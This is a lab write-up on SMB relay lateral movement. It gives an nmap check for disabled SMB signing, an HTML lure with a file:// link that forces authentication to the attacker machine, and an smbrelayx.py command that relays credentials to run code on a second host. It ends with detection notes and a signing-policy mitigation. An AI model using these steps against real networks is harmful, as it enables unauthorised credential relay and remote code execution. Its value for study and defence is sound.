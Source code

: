 # Lateral Movement via SMB Relaying

This lab looks at a lateral movement technique abusing SMB protocol if SMB signing is disabled.&#x20;

SMB signing is a security mechanism that allows digitally signing SMB packets to enforce their authenticity and integrity - the client/server knows that the incoming SMB packets they are receiving are coming from a trusted source and that they have not been tampered with while in transit, preventing man in the middle type attacks.

If SMB signing is disabled, howeverm packets can be intercepted/modified and/or relayed to another system, which is what this lab is about.

## Environment

* 10.0.0.5 - attacker running Kali linux and smb relaying tool
* 10.0.0.2 - victim1; their credentials will be relayed to victim2
* 10.0.0.6 - victim2; code runs on victim2 with victim1 credentials

{% hint style="warning" %}
Credentials from Victim1 must be for a local admin on Victim2 or be a member of Administrators/Domain Administrators group for this attack to work successfully.
{% endhint %}

Below is a simplified process of how this attack works:

`10.0.0.2` -authenticates to-> `10.0.0.5` -relays to-> `10.0.0.6` executes code with victim1(10.0.0.2) credentials

## Execution

One of the ways to check if SMB signing is `disabled` on an endpoint:

{% code title="attacker@kali" %}
```csharp
nmap -p 445 10.0.0.6 -sS --script smb-security-mode.nse
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2018-12-31-10-45-27.png)

Since we know that victim2@10.0.0.6 has SMB signing disabled and is vulnerable to SMB relaying attack, let's create a simple HTML file that once opened will force the victim1 to authenticate to attacker's machine:

{% code title="message.html" %}
```markup
<html>
    <h1>holla good sir</h1>
    <img src="file://10.0.0.5/download.jpg">
</html>
```
{% endcode %}

{% hint style="info" %}
Any other forced authentication method will also work - follow below link for a list of techniques.
{% endhint %}

{% content-ref url="../initial-access/t1187-forced-authentication.md" %}
[t1187-forced-authentication.md](../initial-access/t1187-forced-authentication.md)
{% endcontent-ref %}

...at the same time, let's fire up SMBRelayx tool that will listen for incoming SMB authentication requests and will relay them to victim2@10.0.0.6 and will attempt to execute a command `ipconfig`on the end host:

{% code title="attacker@kali" %}
```
smbrelayx.py -h 10.0.0.6 -c "ipconfig"
```
{% endcode %}

{% hint style="info" %}
Note that smbrelayx could be used with a `-e` switch that allows attacker to execute their payload file - say, a meterpreter executable.
{% endhint %}

Below is a gif showing the technique in action - on the left - `victim1@10.0.0.2` opening the malicious html we crafted earlier that forces it to attempt to authenticate to the attacker system (on the right). Once the authentication attempt comes in, it gets relayed to `victim2@10.0.0.6` and ipconfig gets executed:

![](../../.gitbook/assets/peek-2018-12-30-22-31.gif)

A stop frame from the above gif that highlights that the code execution indeed happend on 10.0.0.6:

![](../../.gitbook/assets/screenshot-from-2018-12-30-22-33-59.png)

## Observations & Mitigation

Smbrelayx.py leaves a pretty good footprint for defenders in Microsoft-Windows-Sysmon/Operational - the parent image is services.exe and the commandline has juicy details - note though that the commandline arguments are subject to forgery:

![](../../.gitbook/assets/screenshot-from-2018-12-31-13-29-13.png)

In order to mitigate this type of attack, the best way to do it is by implementing GPOs if possible by setting the policy **Microsoft network server: Digitally sign communications (always)** to `Enabled`:

![](../../.gitbook/assets/screenshot-from-2018-12-31-10-36-45.png)

With the above change, trying to execute the same attack, we get `Signature is REQUIRED` errors message and lateral movement is prevented:

![](../../.gitbook/assets/screenshot-from-2018-12-30-22-36-01.png)

The same nmap scan we did earlier now also shows that the `message signing is required`:

{% code title="attacker@kali" %}
```csharp
nmap -p 445 10.0.0.6 -sS --script smb-security-mode
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2018-12-31-11-05-59.png)

## References

{% embed url="https://ramnathshenoy.wordpress.com/2017/03/19/lateral-movement-with-smbrelayx-py/" %}

{% embed url="https://blogs.technet.microsoft.com/josebda/2010/12/01/the-basics-of-smb-signing-covering-both-smb1-and-smb2/" %}

{% embed url="https://nmap.org/nsedoc/scripts/smb-security-mode.html" %}

